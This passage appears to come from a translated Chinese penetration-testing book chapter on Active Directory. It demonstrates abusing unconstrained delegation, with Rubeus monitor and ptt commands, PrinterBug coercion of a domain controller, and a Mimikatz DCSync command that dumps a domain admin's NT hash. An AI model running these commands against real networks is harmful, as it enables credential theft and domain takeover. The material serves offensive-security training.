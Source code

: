 图 5.25 – 启用不受限委派的计算机

注意

此外，我们可以使用 LDAP 过滤器 (**userAccountControl:1.2.**** 840.113556.1.4.803:=524288**) 与 AD PowerShell 模块一起使用。

下一步，我们假设我们已经成功攻陷了**castelrock**服务器，因此可以滥用不受限委派。在提升的权限下，我们将启动 Rubeus 监控模式：

```
Rubeus.exe monitor /interval:3 /nowrap
```

从标准用户上下文，我们通过使用 PrinterBug 强制从域控制器进行身份验证：

![图 5.26 – 强制域控制器进行身份验证](img/B18964_05_26.jpg)

图 5.26 – 强制域控制器进行身份验证

结果，我们捕获了域控制器的 TGT：

![图 5.27 – 域控制器的 TGT](img/B18964_05_27.jpg)

图 5.27 – 域控制器的 TGT

现在，我们将使用 Rubeus 在内存中注入此票证，并使用 Mimikatz 转储域管理员的 NT 哈希：

```
Rubeus.exe ptt /ticket:"base64_ticket_from_capture"
Mimikatz.exe "lsadump::dcsync /user:robert.baratheon"
```
